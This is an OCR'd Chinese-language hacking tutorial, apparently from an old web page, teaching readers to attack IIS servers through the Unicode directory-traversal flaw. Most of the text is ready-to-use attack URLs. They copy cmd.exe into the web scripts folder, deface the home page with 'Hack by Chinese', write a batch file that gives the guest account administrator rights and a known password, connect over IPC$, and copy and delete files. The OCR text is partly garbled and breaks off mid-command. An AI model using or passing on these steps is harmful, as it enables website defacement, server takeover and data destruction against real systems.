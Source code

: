 ?5分钟学会黑网站
-BADBOY编写整理.(我觉得unicode漏洞最好学了~? ^____^? )
如果对放有unicodi漏洞的话：
先把c:\winnt\system32\cmd.exe? 拷贝到了c:\inetpub\scripts\ccc.exe拷贝，cmd.exe(必须改名

)方法：? <a href="http://ip/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+copy+c:\winnt\system32">http://ip/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+copy+c:\winnt\system32</a>

\cmd.exe+ccc.exe
这时c:\winnt\system32\cmd.exe已经拷贝到了c:\inetpub\scripts\ccc.exe
通过<a href="http://ip/scripts/ccc.exe?/c+dir+c:\">http://ip/scripts/ccc.exe?/c+dir+c:\</a>? 可以看到c:\文件。
我们就可以调用到cmd.exe了，就是说不用那个编码了。?

<a href="http://ip/scripts/ccc.exe?/c+echo+Hack+by+Chinese+&gt;+c:\inetpub\wwwroot\default.asp">http://ip/scripts/ccc.exe?/c+echo+Hack+by+Chinese+&gt;+c:\inetpub\wwwroot\default.asp</a>?

<a href="http://192.168.8.48/scripts/ccc.exe?/c+echo+1/5/2001+&gt;&gt;+c:\inetpub\wwwroot\default.asp">http://192.168.8.48/scripts/ccc.exe?/c+echo+1/5/2001+&gt;&gt;+c:\inetpub\wwwroot\default.asp</a>
主页面就被修改成了：
Hack? by? Chinese
1/5/2001
也就是说，已经把他的主页黑了。
当然，我们也不能只停留在黑主页的地步，当然想进一步控制整个机器了。
方法：
编写.bat执行文件：
1.打开IE，输入：<a href="http://ip/scripts/cmd.exe?/c">http://ip/scripts/cmd.exe?/c</a>? dir? 怎么样？有cmd.exe文件了吧？这我们就

完成了第一步；
2.http://ip/scripts/cmd.exe?/c? echo? net? user? guest? /active:yes&gt;go.bat
3.http://ip/scripts/cmd.exe?/c? echo? net? user? guest? Chinese&gt;&gt;go.bat
4.http://ip/scripts/cmd.exe?/c? echo? net? localgroup? administrators? /add?

guest&gt;&gt;go.bat
5.http://ip/scripts/cmd.exe?/c? type? go.bat? 看看我们的批文件内容是否如下：
net? user? guest? /active:yes
net? user? guest? Chinese
net? localgroup? administrators? /add? guest
然后在：? <a href="http://ip/scripts/go.bat">http://ip/scripts/go.bat</a>
在磁盘当前位置执行.
他的guest密码就是“Chinese”? 而且是超级用户。
然后你就可以:? net? use? <a href="file://ip/ipc$">\\ip\ipc$</a>? "Chinese"? /user:"guest"
其余的net命令在这我就不都说了！
当然你也可以:
执行：<a href="http://xxx.xxx.xxx.xxx/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir+c:\">http://xxx.xxx.xxx.xxx/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+dir+c:\</a>发现列

出了远程主机C:\下的所有文件
执行：? <a href="http://xxx.xxx.xxx.xxx/scripts/..%c1%1c../winnt/system32/cmd.exe?/c">http://xxx.xxx.xxx.xxx/scripts/..%c1%1c../winnt/system32/cmd.exe?/c</a>? +copy%

20c:\autoexec.bat+c:\autoexec.bak? 成功实现文件的复制，
执行：<a href="http://xxx.xxx.xxx.xxx/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+del%">http://xxx.xxx.xxx.xxx/scripts/..%c1%1c../winnt/system32/cmd.exe?/c+del%</a>
